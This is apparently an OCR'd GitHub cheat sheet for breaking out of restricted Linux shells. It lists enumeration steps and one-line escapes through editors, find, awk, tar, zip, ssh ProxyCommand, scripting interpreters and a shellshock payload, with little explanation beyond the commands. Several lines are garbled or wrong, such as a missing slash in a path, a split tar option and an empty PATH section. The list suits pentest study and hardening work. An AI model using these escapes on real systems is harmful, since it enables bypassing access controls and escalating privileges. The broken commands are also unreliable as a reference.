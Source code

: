 ### Test 
```
ssh user_name@[victim_ip] bash
```

### Enumarate 
- command 
  - cd
  - ls
  - echo

- operators 
  - *>*
  - *<*
  - *>>*
  - *|*

- programming languages
  - perl
  - ruby
  - python
  - php
  
- commands as root
  - sudo -l

- check files with suid

- check env variable
  - run env
  - printenv

- check shell
  - echo $SHELL
  
### Common Techniques
- '/' run /bin/sh or /bin/bash
- 'cp' copy /bin/sh or /bin/bash into your directory
- 'ftp' run ftp>!/bin/bash or ftp>!/bin/sh
- 'gdb' run gdb>!/bin/bash or gdb>!/bin/sh
- 'vim' run vim>!/bin/bash or vim>!/bin/sh
- 'rvim' run rvim>:python import os;os.system("bin/bash")
- 'scp' run scp>scp -S /path/your/script x y:
- 'awk' run awk>awk 'BEGIN {system("/bin/sh or /bin/bash")}
- 'find' run find>find / -name test -exec /bin/sh or /bin/bash \;

### Programming Languages Techniques
- 'except' run except> except spawn sh thne sh
- 'python' run python -c 'import os;os.system("/bin/sh")'
- 'php' run php>php -a then exec("sh -i");
- 'perl' run perl>perl -e 'exec"/bin/sh";'
- 'lua' run lua>os.execute('/bin/sh')
- 'ruby' run ruby>exec "/bin/sh"

### Advance Techniques
- 'ssh' run ssh>ssh username@IP - t "/bin/sh" or "/bin/bash"
- 'ssh2' run ssh2>ssh username@IP -t "bash --noprofile"
- 'ssh3' run ssh3>ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
- 'ssh4' run ssh4>ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)
- 'tar' run tar>tar cf /dev/null testfile --checkpoint=1 --checkpoint- action=exec=/bin/bash
- 'zip' run zip>zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
- 'pico' run pico>pico -s "/bin/bash" then you can write /bin/bash and then CTRL + T
- 'git' run git>git help status > you can run it then !/bin/bash

### PATH override


### References
- https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
